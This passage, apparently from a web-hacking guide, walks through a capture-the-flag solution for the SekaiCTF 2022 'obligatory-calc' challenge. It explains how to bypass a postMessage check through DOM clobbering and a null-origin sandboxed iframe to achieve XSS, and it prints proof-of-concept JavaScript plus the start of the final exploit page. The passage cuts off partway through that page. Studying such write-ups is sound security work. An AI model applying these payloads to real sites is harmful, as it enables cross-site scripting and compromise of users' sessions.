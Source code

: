 ```html
  </script>
</body>
```

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making `window.calc.contentWindow` to `undefined` and `e.source` to `null`:

* **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  * Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  * Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

* Sending `token` in the postMessage with value `null` is trivial.
* **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
    <body>
        <script>
            // Abuse "expr" param to cause a HTML injection and
            // clobber document.getElementById and make window.calc.contentWindow undefined
            open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');
            
            function start(){
                var ifr = document.createElement('iframe');
                // Create a sandboxed iframe, as sandboxed iframes will have origin null
                // this null origin will document.cookie trigger an error and window.token will be undefined
                ifr.sandbox = 'allow-scripts allow-popups';
                ifr.srcdoc = `<script>(${hack})()<\/script>`
                
```